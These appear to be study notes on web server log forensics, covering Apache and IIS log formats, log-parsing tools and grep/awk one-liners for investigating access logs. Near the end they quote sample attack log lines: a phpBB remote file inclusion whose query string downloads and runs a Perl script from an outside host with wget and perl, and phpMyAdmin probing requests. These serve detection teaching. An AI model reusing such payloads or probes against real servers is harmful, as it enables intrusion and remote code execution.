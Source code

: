 W3C extended/Combined format: Same NCSA common format + HTTP Referrer header (for suspicious traffic, “-“ when empty) + HTTP User-Agent string (malicious utilities or forged traffic)
-	Apache’s mod_headers function is used to manipulate the HTTP logs data

Apache: mod_log_forensic logging: https://httpd.apache.org/docs/2.4/mod/mod_log_forensic.html
-	Logging of all headers for each request the server handles
-	Has impact on performance and disk space utilization
-	Can be configured for specific virtual_host or web page or application
-	Starts with + or – sign and unique identifier as this can log similar multiple lines
-	This log contains decrypted data as SSL/TLS offloading is done at WAF or other proxy servers in the front
unique_request_id|request_method<space>request_string<space>protocol_version|request_headers

IIS Log file format: Can support both NCSA and W3C extended. Has its own format (comma-separated), by default.
requesting_ip, authenticated_user, date, time, instance/service name, server name, server_ip, milliseconds to server the request, bytes in request, bytes sent in response, http status code, windows return code, http req method, requested resource, get request parameters
-	Windows return code is OS generated error code (0 = all good) for process that served the request
IIS Centralized Binary Logging (CBL): Efficient for large/busy servers | CBL stores in local files | requires querying and parsing to get human-readable data | Microsoft log parser tool is good for this (SQL-like functionality to query with text, XML, CBL, and more); GUI front-end is Log Lizard (by SANS). Microsoft’s own GUI is: Log Parser Studio.
-	ODBC connector allows server to log to an SQL server database

HTTP Log File Analysis methods: Stored in plain text (mostly). Can use shell utilities (awk, sed, grep, cut, etc.).
When logs are stored in SQL DB, forensicator can use normal or advanced SQL queries.
Sample commands to analyze HTTP logs data: (W3C Extended or Combined format)
1.	Find all systems that requested a particular resource, aggregated by frequency and sort
$ sudo grep "\"GET /resource" access_log |  awk '{print $1}' | sort | uniq -c | sort -nr

2.	Find all resources requested by the specified system:
$ sudo grep "^1.2.3.4" access_log | awk '{print $7}' | sort | uniq -c | sort -nr

3.	Same as above, but group by hour of access:
$ sudo grep "^1.2.3.4" access_log | awk '{print $4,$7}'| sed -e 's/\[\([0-9]\{2\}\/[A-Za-z]\{3\}\/[0-9]\{4\}\):\([0-9]\{2\}\)[0-9:]\{6\} \(.*\)/\1 \2:00:00+ \3/' | sort | uniq -c | sort -nr

4.	Identify all requestors that triggered server errors, including the request URI:
$ sudo cat access_log | awk '{print $9,$1,$7}' | egrep "^5[0-9]{2}" | sort | uniq -c | sort -nr

Investigative value of HTTP logs: identify probing for vuln apps from search engines | SQLi attempts | See what bad IP accessed | Find RAT tools in use | Track attacker’s action using a RAT (even reconstruct uploaded malware)
e.g. 1. Shell execution attempts against PHPBB and SQLi against PHPNuke:
207.36.232.148 - - [28/Aug/2006:07:08:46 -0300] "GET /index.php/Artigos/modules/Forums/admin/admin_users.php?phpbb_root_path=http://paupal.info/folder/cmd1.gif?&cmd=cd%20/tmp/;wget%20http://paupal.info/folder/mambo1.txt;perl%20mambo1.txt;rm%20-rf%20mambo1.*? HTTP/1.0" 200 14611 "-" "Mozilla/5.0"

      2.  Scan for specific version of phpMyAdmin:
119.60.29.230 - - [23/Feb/2013:09:18:45 -0500] "GET //phpMyAdmin/scripts/setup.php HTTP/1.1" 404 304 "-" "-"

119.60.29.230 - - [23/Feb/2013:09:18:50 -0500] "GET //web/phpMyAdmin/scripts/setup.php HTTP/1.1" 404 308 "-" "-"
